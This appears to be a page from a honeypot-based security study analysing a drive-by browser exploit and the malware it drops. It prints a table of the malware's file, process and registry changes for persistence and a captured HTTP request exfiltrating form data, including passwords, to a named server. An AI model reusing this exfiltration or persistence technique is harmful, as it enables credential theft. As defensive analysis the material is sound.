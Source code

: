 ```
 }
 } catch(e) { }
 }
 }
```
Figure 12 - Exploit code - portion 2

| Monitor  | Action     | Actor                                         | Action parameter                                                                 |
|----------|------------|-----------------------------------------------|----------------------------------------------------------------------------------|
| file     | Write      | C:\Program Files\Internet Explorer\IEXPLORE.EXE | C:\syswcon.exe                                                                   |
| process  | Created    | C:\Program Files\Internet Explorer\IEXPLORE.EXE | C:\syswcon.exe                                                                   |
| file     | Write      | C:\syswcon.exe                                | C:\WINDOWS\system32\drivers\uzcx.exe                                             |
| process  | Created    | C:\syswcon.exe                                | C:\WINDOWS\system32\drivers\uzcx.exe                                             |
| process  | Terminated | C:\Program Files\Internet Explorer\IEXPLORE.EXE | C:\syswcon.exe                                                                   |
| registry | SetValueKey| C:\WINDOWS\system32\drivers\uzcx.exe          | HKCU\Software\ewrew\uzcx\main\cid                                                |
| file     | Write      | C:\WINDOWS\system32\drivers\uzcx.exe          | C:\Documents and Settings\cseifert\Local Settings\Temporary Internet Files\Content.IE5\OPUJWX63\benupd32\[1\].exe |
| file     | Write      | C:\WINDOWS\system32\drivers\uzcx.exe          | C:\WINDOWS\benupd32.exe                                                          |
| process  | Created    | C:\WINDOWS\system32\drivers\uzcx.exe          | C:\WINDOWS\benupd32.exe                                                          |
| registry | SetValueKey| C:\WINDOWS\system32\drivers\uzcx.exe          | HKCU\Software\ewrew\uzcx\main\term                                               |
| process  | Created    | C:\WINDOWS\benupd32.exe                       | C:\WINDOWS\benupd32.exe                                                          |
| file     | Write      |                                               | C:\Documents and Settings\cseifert\Local Settings\Temp\clean_33d87.dll            |
| process  | Created    | C:\WINDOWS\benupd32.exe                       | C:\WINDOWS\system32\regsvr32.exe                                                 |
| registry | SetValueKey| C:\WINDOWS\explorer.exe                       | HKLM\SYSTEM\ControlSet001\Services\ldrsvc\Parameters\ServiceDll                   |

Table 3 - Keith Jarrett attack – observed state changes

Once the exploit was successful, malware was downloaded and executed on the client machine. All of this, of course, happens in the background and is not noticeable by the user. Table 3 shows some of the actions taken by the exploit and malware; the malware is downloaded and then executes. Multiple executables and dll files are subsequently written and executed. Benupd32.exe writes the clean\_33d87.dll file to disk and proceeds to register and install it as a service, so it will be started automatically upon a reboot of the client machine. These log files were generated with the help of the client honeypot Capture-HPC.

What does the malware do once it takes control of your system? Sniffing the network stream reveals that during web browsing, in particular form submissions, the malware forwards the content of the form to a malicious data collection server named lddpaym.net. An example of these requests is shown in Figure 13. While we were not able to convert the binary data into clear text, we did discover some clear text data collection files on the web that match the format shown of the requests that we captured. These files contained a comprehensive list of URLs and the corresponding form data, mostly account names and passwords. The data was neatly separated per client machine, so it grouped the different account information per user. One stolen username and password is already quite dangerous. If the attacker has a collection of various credentials from the same user, for example e-mail and bank account information, it provides the attacker with a much more powerful set of information that will greatly increase the likelihood of a successful scam. For example, the attacker could first disable e-mail notifications from the user’s bank before proceeding to raid their bank account.
```
/ewDf/dBMFJAV3O2VkcWVw1ddn69QPWjtCW2fRVdMXlXLPU8cwRtHhBWXOQbBVYHRAouF
 /Fc8/DyO7ZyCkUndVp7pSV6Fm0SGRRa4kFRQgBNAyMbshKusPBloBp7PX0gBT/ydBkAOEpBVk
 WjU1JOBQdFN2K6FtXHxSXHd3xSXHxdYasmdQcTEBMSFcxRITEBMXBeF+pA HTTP/1.0
 Content-Type: multipart/form-data; boundary=swefasvqdvwxff
 Host: lddpaym.net
 Content-Length: 999
 Connection: Close
 User-Agent: MSID \[CEB2BB8F6737C1282988A8D3F1DFE91D\]|Paladin\_IT|107
```